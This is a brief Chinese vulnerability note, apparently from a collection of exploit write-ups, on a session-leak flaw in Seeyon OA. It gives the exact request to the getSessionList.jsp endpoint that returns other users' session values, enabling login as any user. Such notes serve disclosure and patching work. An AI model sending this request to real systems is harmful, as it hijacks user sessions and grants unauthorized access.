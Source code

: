 # 致远OA Session泄漏漏洞

## 漏洞描述

通过使用存在漏洞的请求时，会回显部分用户的Session值，导致出现任意登录的情况

## 影响版本

> [!NOTE]
>
> 未知

## 漏洞复现

请求 http://xxx.xxx.xxx.xxx/yyoa/ext/https/getSessionList.jsp?cmd=getAll

回显Session则存在漏洞

## 参考文章

[零组文库](http://www.0-sec.org)